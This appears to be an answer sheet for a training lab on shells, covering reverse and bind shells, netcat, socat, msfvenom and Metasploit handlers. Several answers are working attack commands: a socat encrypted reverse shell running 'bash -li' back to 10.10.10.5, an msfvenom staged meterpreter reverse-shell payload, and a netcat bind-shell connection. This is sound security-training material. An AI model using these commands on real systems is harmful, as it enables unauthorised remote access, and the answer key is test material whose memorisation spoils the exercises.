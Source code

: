 # What the Shell?

### Types of Shell
- Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)? `R`
- You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N) `N`
- When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)? `T`

### Netcat
- Which option tells netcat to listen? `-l`
- How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080? `nc 10.10.10.11 8080`

### Netcat Shell Stabilisation
- How would you change your terminal size to have 238 columns? `stty cols 238`
- What is the syntax for setting up a Python3 webserver on port 80? `sudo python3 -m http.server 80`

### Socat
- How would we get socat to listen on TCP port 8080? `TCP-L:8080`

### Socat Encrypted Shells
- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem". `socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`
- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener? `socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Common Shell Payloads
- What command can be used to create a named pipe in Linux? `mkfifo`

### msfvenom
- Which symbol is used to show that a shell is stageless? `_`
- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell <br />
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

### Metasploit multi/handler
- What command can be used to start a listener in the background? `exploit -j`
- If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it? `sessions 10`
